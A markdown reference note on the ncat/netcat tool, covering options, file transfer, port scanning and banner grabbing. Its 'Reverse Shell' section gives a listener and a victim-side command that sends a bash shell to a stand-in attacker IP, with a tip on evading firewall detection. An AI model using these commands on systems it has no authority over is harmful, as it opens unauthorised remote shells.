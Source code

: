 ```yaml
---
id: netcat
aliases:
  - netcat
  - ncat
  - nc
tags:
  - Networking/Tools/Netcat
links: "[[Netcat]]"
resources:
  - "[Ncat](https://nmap.org/ncat/)"
  - "[Ncat Users' Guide](https://nmap.org/ncat/guide/index.html)"
  - "[ncat - man7.org](https://www.man7.org/linux/man-pages/man1/ncat.1.html)"
  - "[Netcat - Wikipedia](https://en.wikipedia.org/wiki/Netcat)"
---
```


# Netcat

`ncat` — Reimplementation of netcat maintained by the [Nmap](https://nmap.org/ncat/) team

## Usage

Synopsis

```sh
ncat [OPTIONS...] [hostname] [port]
```

<!-- Examples {{{-->
> [!example]-
>
> **Examples**
>
>```sh
># Execute the given command after connecting
>ncat -e /bin/bash localhost 8080
>
># Listen for incoming connections
>ncat -l 8080
>
># Do not resolve hostnames via DNS
>ncat -n localhost 8080
>
># Specify source port to use
>ncat -p 8080 localhost 8081
>
># Use source IP address
>ncat -s 192.168.1.5 localhost 8080
>
># Answer TELNET negotiation
>ncat -t localhost 8080
>
># Use UDP instead of default TCP
>ncat -u localhost 8080
>
># Verbose mode
>ncat -v localhost 8080
>
># Set a timeout for idle connection
>ncat -w 5 localhost 8080
>
># Zero-I/O mode, report connection status only
>ncat -z localhost 8080
>
># Banner grabbing
>nc -nv {target_ip} 21
>```
<!-- }}} -->

<!-- File Transfer {{{-->
### File Transfer

Listen to an incoming connection on port `8080` and write any received data to
`received_file`

```sh
ncat -l 8080 > <received_file>
```

Connect to a server on port `8080` and send the content of `file_to_send`

```sh
ncat localhost 8080 < <file_to_send>
```
<!-- }}} -->

<!-- Port Scanning {{{-->
### Port Scanning

Check if the port is open and then close the connection *(ports 80-90 through
`localhost`)*

```sh
ncat -v -n -z localhost 80-90
```
<!-- }}} -->

<!-- Reverse Shell {{{-->
### Reverse Shell

Open a listener and listen to an incoming connection

1. Open a netcat listener

```sh
ncat -lvnp <listening_port>
```

> [!example]-
>
> ```sh
> nc -lvnp 1234
> ```

> [!tip]-
>
> Keep the listening port below `1000` to avoid firewall detection

2. Initiate a connection from the victim's machine back to the attacker's machine

```sh
ncat <attacker_ip> <attacker_port> -e /bin/bash
```
<!-- }}} -->

## Resources

- [Ncat](https://nmap.org/ncat/)
- [Ncat Users' Guide](https://nmap.org/ncat/guide/index.html)
- [ncat - man7.org](https://www.man7.org/linux/man-pages/man1/ncat.1.html)
- [Netcat - Wikipedia](https://en.wikipedia.org/wiki/Netcat)
